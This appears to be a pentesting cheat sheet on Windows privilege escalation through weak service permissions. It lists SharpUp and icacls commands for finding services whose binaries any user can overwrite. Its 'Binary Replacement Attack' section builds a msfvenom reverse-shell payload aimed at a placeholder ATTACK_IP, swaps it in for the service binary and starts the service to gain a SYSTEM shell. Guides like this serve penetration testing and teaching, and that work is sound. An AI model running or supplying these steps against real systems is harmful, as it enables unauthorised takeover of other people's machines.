 # Weak Permissions Privilege Escalation

## 🎯 Overview

**Weak permissions** are common in third-party software and custom applications. Services typically run with **SYSTEM privileges**, making permission flaws a direct path to **complete system control**. Key vectors include **file system ACLs**, **service permissions**, **unquoted paths**, **registry ACLs**, and **autorun binaries**.

## 🔧 Permissive File System ACLs

### Service Binary Discovery
```powershell
# Use SharpUp to identify vulnerable service binaries
.\SharpUp.exe audit

# Example output:
Name             : SecurityService
DisplayName      : PC Security Management Service
PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
State            : Stopped
StartMode        : Auto
```

### Permission Verification
```cmd
# Check file permissions with icacls
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

# Vulnerable example:
C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
# (F) = Full Control for Users and Everyone
```

### Binary Replacement Attack
```cmd
# Backup original binary
copy "C:\Program Files (x86)\PCProtect\SecurityService.exe" SecurityService.exe.bak

# Generate malicious binary
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACK_IP LPORT=4444 -f exe > malicious.exe

# Replace service binary
copy /Y malicious.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"

# Start service for SYSTEM shell
sc start SecurityService
```

